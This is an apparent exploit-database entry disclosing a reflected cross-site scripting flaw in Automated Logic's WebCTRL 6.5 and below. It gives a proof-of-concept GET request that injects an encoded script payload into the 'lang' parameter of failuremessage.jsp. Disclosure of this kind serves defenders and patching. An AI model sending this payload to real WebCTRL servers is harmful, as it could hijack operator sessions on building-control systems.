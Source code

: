 # XSS vulnerability in Automated Logic's WebCTRL product

Exploit Title:  XSS in Automated Logic WebCTRL

Google Dork: -

Date: 2020-08-25

Exploit Author: İsmail ERKEK 

Vendor Homepage: https://www.automatedlogic.com/

Version: 6.5 and below

Tested on: -

# Proof of Concept Request
-------------------------------------------------
GET /_common/lvl5/failuremessage.jsp?message1=Operator_authentication_failed1&message2=Operator_authentication_failed2&lang=en61302%26%23x22%3b%3balert(1)%2f%2f107 HTTP/1.1

Host: 127.0.0.1

Accept-Encoding: gzip, deflate

Accept: */*

Accept-Language: en

User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)

Connection: close

Referer: http://127.0.0.1/?language=en

Cookie: JSESSIONID=15B8DBC7037CBF79B647B8D6F0ABEF0B
